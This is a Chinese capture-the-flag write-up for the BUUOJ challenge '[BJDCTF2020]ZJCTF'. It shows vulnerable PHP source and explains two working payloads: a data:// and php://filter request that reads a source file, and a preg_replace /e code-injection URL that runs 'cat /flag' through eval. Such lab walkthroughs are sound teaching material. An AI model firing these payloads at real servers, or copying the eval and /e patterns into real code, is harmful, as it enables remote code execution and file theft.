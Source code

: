 # [BJDCTF2020]ZJCTF，不过如此

[题目地址](https://buuoj.cn/challenges#[BJDCTF2020]ZJCTF%EF%BC%8C%E4%B8%8D%E8%BF%87%E5%A6%82%E6%AD%A4)

为什么BJDCTF说ZJCTF不行？

```php
<?php

error_reporting(0);
$text = $_GET["text"];
$file = $_GET["file"];
if(isset($text)&&(file_get_contents($text,'r')==="I have a dream")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        die("Not now!");
    }

    include($file);  //next.php
    
}
else{
    highlight_file(__FILE__);
}
?>
```

简单的一个伪协议。直接构造payload读取注释里提到的next.php文件。

- http://df8bd0fd-28f8-41c2-86dc-0c3da495b1ce.node4.buuoj.cn:81/?text=data://text/plain;base64,SSBoYXZlIGEgZHJlYW0=&file=php://filter/read=convert.base64-encode/resource=next.php

```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
}
```

之前见过preg_replace加上/e选项导致的[命令执行](https://xz.aliyun.com/t/2557)。这个选项会使 preg_replace() 将 replacement 参数当作 PHP 代码（在替换完成之后）执行。要确保  replacement 构成一个合法的 PHP 代码字符串，否则 PHP 会在报告在包含 preg_replace() 的行中出现语法解析错误。问题是这道题的replacement（第二个参数）不是我们能够控制的，此时该如何构造payload呢？

上面给的链接其实已经给出答案了，这题感觉出题人灵感就是从那来的。我们虽然不能控制replacement，但是第一个参数可以控制。结合下面的foreach语句，第一个参数是get传参时的参数名，第三个参数是参数内容。这题肯定是尝试调用getFlag参数。构造payload。

- http://df8bd0fd-28f8-41c2-86dc-0c3da495b1ce.node4.buuoj.cn:81/next.php?\S*=${getFlag()}&cmd=system(%22cat%20/flag%22);

参数名为`\S*`，内容为`${getFlag()}`。`\S*`中的`\S`表示匹配任何非空白字符，`*`表示匹配零个或多个。这倒是不难，可是为什么值是`${getFlag()}`而不是直接`getFlag()`呢？因为第二个参数固定为`strtolower("\\1")`，也就是`\\1`的小写。`\\1`就是1，转义罢了，然而`\1`好像更不知道有什么用了。其实`\1`在正则表达式中有自己的含义，表示反向引用。

- 对一个正则表达式模式或部分模式 两边添加圆括号 将导致相关 匹配存储到一个临时缓冲区 中，所捕获的每个子匹配都按照在正则表达式模式中从左到右出现的顺序存储。缓冲区编号从 1 开始，最多可存储 99 个捕获的子表达式。

所以`\1`代表第一个子匹配项。[${}](https://www.php.net/manual/zh/language.variables.variable.php)和php的可变变量有关。直接传`getFlag()`，确实能够执行，但是程序回显的地方只有`echo complex($re, $str). "\n";`，也就是preg_replace的返回值：替换后的内容。那getFlag就被原封不动返回来了，看不到执行效果。`${getFlag()}`把getFlag看作参数，先执行getFlag获取其返回值，这样`/1`取到的就是函数执行的结果了。